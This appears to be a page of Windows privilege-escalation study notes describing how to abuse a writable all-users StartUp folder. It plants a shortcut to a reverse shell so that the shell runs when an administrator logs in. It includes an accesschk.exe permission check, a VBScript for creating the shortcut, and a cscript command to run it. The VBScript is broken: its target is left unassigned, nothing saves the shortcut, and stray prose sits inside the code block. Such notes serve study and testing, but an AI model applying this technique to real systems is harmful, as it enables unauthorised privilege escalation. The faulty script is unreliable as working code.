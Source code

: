 # Startup Apps

Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users:

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.

{% hint style="info" %}
Note that shortcut files \(.lnk\) must be used. The following VBScript can be used:
{% endhint %}

```text
to create a shortcut file:
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start
Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.Target
```

#### reverse.lnk is our reverse shell executable.

![](../../../.gitbook/assets/image%20%28158%29.png)

Use accesschk.exe to check permissions on the StartUp directory:

```text
\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

![](../../../.gitbook/assets/image%20%28157%29.png)

Note that the BUILTIN\Users group has write access to this directory.

Create a file CreateShortcut.vbs with the VBScript provided in a previous slide. Change file paths if necessary.

![](../../../.gitbook/assets/image%20%28161%29.png)

Run the script using cscript:

```text
cscript CreateShortcut.vbs
```

![](../../../.gitbook/assets/image%20%28162%29.png)

no we wait for the admin to login:

![](../../../.gitbook/assets/image%20%28156%29.png)

